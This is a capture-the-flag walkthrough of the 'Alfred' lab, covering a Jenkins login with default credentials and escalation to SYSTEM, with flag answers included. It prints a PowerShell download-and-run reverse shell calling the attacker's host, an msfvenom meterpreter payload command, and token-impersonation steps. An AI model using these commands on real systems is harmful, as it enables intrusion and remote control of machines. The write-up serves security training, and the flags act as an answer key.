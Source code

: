# ALFRED

## BASIC INFO
```
export IP=10.10.8.255

80/tcp   open  http               Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Site doesn't have a title (text/html).
3389/tcp open  ssl/ms-wbt-server?
|_ssl-date: 2020-05-03T02:33:53+00:00; -40s from scanner time.
8080/tcp open  http               Jetty 9.4.z-SNAPSHOT
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
```
## INITIAL ACCESS

> - **How man ports are open?**
>> 3

> - **What is the username and password for the log in panel (in the format username:password)**
>> admin:admin\
The login page is located at port 8080

> - **Find a feature of the tool that allows you to execute commands on the underlying system. When you find this feature use this command to get th reverse shell on your machine and run it. `powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port`.**
>> No answer needed

The feature is under view, project, configure tab.

> - **What is the user.txt flag?**
>> 79007a09481963edf2e1321abd9ae2a0

## SWITCHING SHELLS
Creating payload with msfvenom
```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.8.8.177 LPORT=9001 -f exe -o shell.exe
```

> - **What is the final size of the exe payload that you generated?**
>> 70832


```
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.8.8.177:8000/shell.exe','shell.exe')"

Then just run the command
shell
```

## PRIVILEGE ESCALATION

> - **To check which tokens are available, enter the list_tokens -g. We can see that the BUILTIN\Administrators token is available. Use the impersonate_token "BUILTIN\Administrators" command to impersonate the Administrators token. What is the output when you run the getuid command?**
>> NT AUTHORITY\SYSTEM

> - **read the root.txt file at C:\Windows\System32\config**
>> dff0f748678f280250f25a45b8046b4a

_**Remember to migrate to spoolsv.exe or services.exe first or else you can't find the flag**_